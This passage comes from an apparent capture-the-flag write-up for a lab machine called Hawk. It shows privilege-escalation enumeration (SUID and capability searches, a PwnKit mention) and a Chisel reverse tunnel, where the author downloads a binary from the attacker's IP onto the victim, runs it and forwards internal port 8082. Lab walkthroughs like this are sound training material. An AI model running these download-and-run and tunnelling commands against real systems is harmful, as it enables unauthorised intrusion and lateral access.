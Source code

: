 ; max-width: 900px;">
<br/><br/>

If I use some basic recognition commands, I confirm that the codename is **Bionic**, and I already have access to the first flag. I find that the `pkexec` binary has **SUID** permissions, which would allow to use **[PwnKit](https://github.com/ly4k/PwnKit){:target="_blank"}** and elevate privileges, but I will try another way. If I look at **Cron** tasks or Capabilities I don't find any possible attack vector either, if I list all the open ports, I remember I had problems accessing port **8082** from my attacking machine.

```bash
id
groups
find \-perm -4000 2>/dev/null
getcap -r / 2>/dev/null
```

<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_24.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_25.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_26.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/hawk_writeup/Hawk_27.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

What I am going to do is to bring that port to my machine using a tunnel with **[Chisel](https://github.com/jpillora/chisel){:target="_blank"}**, an excellent tool to access internal ports that cannot be accessed. If I download the binary on my machine and send it to the victim machine as well, I can create a server on my host and the client on the box. Now I can access from my browser to port **8082** which is actually connected to port **8082** on the machine I am enumerating.

> **Attacker Machine**:

```bash
python3 -m http.server 80

./chisel server 1234 --reverse --port 1234
```

> **Victime Machine**:

```bash
cd /dev/shm
wget 10.10.14.15/chisel
chmod +x chisel

netstat -nat | grep "8082"

./chisel client 10.10.14.15:1234 R:8082:127.0.0.1:8082
```
